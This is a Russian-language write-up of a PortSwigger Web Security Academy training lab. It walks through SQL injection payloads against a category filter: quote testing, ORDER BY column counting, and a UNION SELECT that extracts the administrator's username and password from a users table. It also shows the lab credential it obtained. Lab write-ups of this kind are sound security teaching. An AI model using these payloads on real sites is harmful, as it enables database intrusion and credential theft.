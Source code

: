 # SQL injection UNION attack, retrieving data from other tables

## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/
```

В данной лабе есть уязвимый к `SQL injection` фильтр категории.

В БД есть талицы с именам `users` и колонками `username` и `password`.

Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.

## Notes

Известно, что уязвимость находится в фильтре категорий, поэтому сразу возьму его.

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/filter?category=Pets
```

Нужно подобрать обрамление. Пусть запрос выглядит следующим образом:

```SQL
SELECT * FROM table WHERE category = 'Pets'
```

Протестирую пейлоад:

```
Pets' and 0=1-- -
```

![](../images/Pasted%20image%2020250118190234.png)

Страница пустая, значит для обрамления используется одинарные кавычки. Теперь узнаю количество полей в запросе с помощью `ORDEYR BY`:

```
Pets' ORDER BY 10-- -Error
Pets' ORDER BY 5-- -Error
Pets' ORDER BY 3-- -Error
Pets' ORDER BY 2-- -Ok
```

Значит в запросе у меня 2 параметра. Использую `UNION`, чтобы отобразить свои данные:

```
Pets' and false UNION SELECT NULL, NULL-- -Ok
Pets' and false UNION SELECT 1, 2-- -Error
Pets' and false UNION SELECT '1', '2'-- -Ok
```

Теперь попробую добавить поля `username` и `password`:

```
Pets' and false UNION SELECT username, password FROM users WHERE username = 'administrator'-- -ok
```

![](../images/Pasted%20image%2020250118191209.png)

Получил креды: `administrator`:`5j1o1b7ls5ltyvanoo42`. Зайду в аккаунт

![](../images/Pasted%20image%2020250118191253.png)

Ну, все. Я получил власть...
